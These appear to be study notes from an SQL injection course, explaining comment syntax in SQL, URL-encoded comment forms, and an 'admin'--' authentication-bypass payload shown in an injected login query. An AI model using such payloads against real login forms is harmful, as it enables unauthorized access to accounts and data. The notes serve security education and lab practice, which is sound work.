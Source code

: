     - `--` (double dash) for line comments.
        
    - `#` (hash) for line comments.
        
    - `/* ... */` for inline or block comments (less common in SQL injection).
        
- The `--` style is commonly used in SQL injections to comment out the remaining part of a query. For example:
	
```mysql
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```
	
> [!Note]  In SQL, using two dashes only is not enough to start a comment. So, there has to be an empty space after them, so the comment starts with (-- ), with a space at the end. This is sometimes URL encoded as (--+), as spaces in URLs are encoded as (+). To make it clear, we will add another (-) at the end (-- -), to show the use of a space character.
	
- The `#` symbol can be used as well.
	
```mysql
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'

+----+----------+----------+---------------------+
| id | username | password | date_of_joining     |
+----+----------+----------+---------------------+
|  1 | admin    | p@ssw0rd | 2020-07-02 00:00:00 |
+----+----------+----------+---------------------+
1 row in set (0.00 sec)
```
	
>[!Tip] If we are entering our payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.
### Auth Bypass with comments
- Looking back to the previous example, let's inject **admin'--** as username.
	
```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```
	
- As we can see from the syntax highlighting, the username is now `admin`, and the remainder of the query is now ignored as a comment.
	
- This way, we can ensure that the query does not have any syntax issues.
	